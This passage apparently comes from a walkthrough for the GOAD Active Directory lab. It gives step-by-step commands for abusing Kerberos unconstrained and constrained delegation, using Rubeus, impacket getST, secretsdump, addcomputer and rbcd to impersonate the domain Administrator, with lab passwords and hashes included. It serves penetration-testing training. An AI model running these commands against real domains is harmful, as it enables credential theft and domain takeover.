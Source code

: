 ```
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

## Constrained Delegation
- Find all the constrained delegation with impacket :
`findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local`

To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.

### With protocol transition
#### From windows with Rubeus
```
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

#### From linux with impacket:
```
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

Next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec

### Without protocol transition
- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :
`sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"`

- To exploit the constrained delegation here we only need a forwardable TGS as administrator to any service on castelblack

- But if we do a s4u (s4u2self + s4u2proxy) like we did with protocol transition, the s4uself will send us a not forwardable TGS and the attack will fail.

- So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$).

- By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator. Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice

```
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'

# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```
